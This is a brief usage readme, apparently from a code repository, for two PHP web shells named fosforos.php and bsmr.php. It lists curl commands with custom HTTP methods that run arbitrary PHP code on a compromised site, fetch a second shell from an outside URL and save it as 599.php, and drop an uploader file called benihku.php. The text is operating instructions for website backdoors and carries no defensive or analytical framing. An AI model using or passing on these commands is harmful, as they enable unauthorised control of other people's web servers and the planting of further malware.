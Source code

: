 #fosforos.php
* use = ssl://sitename.domain/path/filename.php?FosforoS

#bsmr.php
[    SAYANGKAMU    ]      = for input php code without '<?php' and '?>'
* example with params     = SayangKamu=echo "kamu siapa?";
* example with curl       = curl -X SAYANGKAMU urldomain/path/filename.ext -d 'SayangKamu=echo "kamu siapa?"; '
[    SAYANG599     ]      = for input shell by url  
* example with params     = SAYANG599=http://ase.de/kont.ol
* example with curl       = curl -X SAYANG599DONG urldomain/path/filename.ext -d 'SAYANG599=http://ase.de/kont.ol'
* filename if use SAYANG599 599.php
[ SAYANGAKUMASUKIN ]      = for add uploader in site
* example with params     = ( this not use param ~.~ )
* example with curl       = curl -X SAYANGAKUMASUKIN urldomain/path/filename.ext 
* filename if use SAYANGAKUMASUKIN benihku.php
